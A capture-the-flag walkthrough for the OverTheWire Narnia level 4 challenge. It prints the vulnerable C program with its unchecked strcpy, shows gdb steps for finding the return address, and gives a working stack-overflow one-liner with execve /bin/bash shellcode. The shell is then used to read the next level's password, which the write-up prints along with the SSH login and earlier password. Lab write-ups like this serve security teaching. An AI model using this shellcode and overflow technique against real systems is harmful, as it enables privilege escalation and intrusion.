 # Level 4 → Level 5

## Solution
```
ssh narnia4@narnia.labs.overthewire.org -p 2226
```
```
aKNxxrpDc1
```
```
cd /narnia ; ls -al
```
```
./narnia4
```

![](0.png)

Let's look at the code:

```
cat narnia4.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```

In challenge `Level2 -> Level3`, after I finished I saw a solution to the challenge in a YouTube video (I attached the link to the video under the title **Appendix**). In the video there was a way to solve the challenge using something like an insider environment variables(?..). In the current challenge, it seems that the file deletes all [environment variables](https://stackoverflow.com/questions/10649273/where-is-the-definition-of-extern-char-environ).

But since my solution did not include internal environment variables or anything like that (but just for convenience... and I checked, they are not affected by the software) then I can bring the same solution with the necessary adjustments in terms of addresses and input size.

Let's get started.

The total size of the input will be 256+4+4+4.
* 256, size of array `buffer`. shellcode is included inside.
* +4, size of integer `i`
* +4, size of register `ebp`
* +4, size of the **return address** FROM `main` function. This is the goal..

We will now check addresses:

```
gdb --args ./narnia4 $(perl -e 'print "A"x256 . "B"x4 . "C"x4 . "D"x4')
```
```
disas main
```

![](1.png)

We would like to set a breakpoint immediately after strcpy and look at the stack. Therefore, a breakpoint was set to be at `0x08049218`

```
b *0x08049218
```
```
r
```
```
c
```

![](2.png)

That means we have successfully overridden the return address. Let's look at the stack:

```
r
```
```
x/80x $sp
```

![](3.png)

That is, the address `0xffffd2e4` is the top of the stack. Now according to the calculations we performed in the `Level2 -> Level3` challenge we will perform the following steps:

```
exit
```
```
./narnia4 $(perl -e 'print "A"x64 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" . "A"x(256+4+4-64-33) . "\x24\xd3\xff\xff"')
```
```
id
```
```
whoami
```
```
cat /etc/narnia_pass/narnia5
```

![](4.png)

## Password for the next level:
```
1oCoEkRJSB
```
